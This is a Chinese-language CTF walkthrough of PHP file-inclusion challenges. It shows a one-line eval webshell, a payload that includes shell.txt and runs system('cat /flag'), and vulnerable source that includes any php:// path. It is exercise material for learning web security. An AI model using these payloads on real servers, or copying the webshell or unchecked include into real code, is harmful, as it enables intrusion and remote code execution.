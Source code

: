 strpos查找字符串首次出现的位置

```php
strpos(string,find,start)
```

| 参数   | 描述                     |
| ------ | ------------------------ |
| string | 必需，规定要搜索的字符串 |
| find   | 必需，规定要查找的字符串 |
| start  | 可选，规定在何处开始搜索 |

php代码的意思是如果GET传参中包含flag则会执行else返回Hacker！！！，否则执行包含起来的文件$_GET["file"]

点击给的shell.txt发现漏洞

```
<?php eval($_REQUEST['ctfhub']);?>
```

并且 $_REQUEST['ctfhub']

文件包含漏洞利用的前提条件：
（1）web 应用采用 include 等文件包含函数，并且需要包含的文件路径是通过用户传输参
数的方式引入；
（2）用户能够控制包含文件的参数，被包含的文件可被当前页面访问；

文件包含获取 webshell 的条件：
（1）攻击者需要知道文件存放的物理路径；
（2）对上传文件所在目录拥有可执行权限；
（3）存在文件包含漏洞；

所以本题存在文件包含漏洞

我们要想办法绕过 hacker（黑客）
到达include

所以我们找个变量指向一个没有 flag 的文件

而题中已经给了提示 shell.txt 同时有 eval漏洞
构造payload

```
/?file=shell.txt
ctfhub=system("cat /flag");
```

![image-20240120013757962](E:\学习资料\网安\笔记\笔记截图\image-20240120013757962.png)

**PHP ://input**

一开始直接给出源码

```php
<?php
if (isset($_GET['file'])) {
    if ( substr($_GET["file"], 0, 6) === "php://" ) {
        include($_GET["file"]);
    } else {
        echo "Hacker!!!";
    }
} else {
    highlight_file(__FILE__);
}
?>
<hr>
i don't have shell, how to get flag? <br>
<a href="phpinfo.php">phpinfo</a>
```
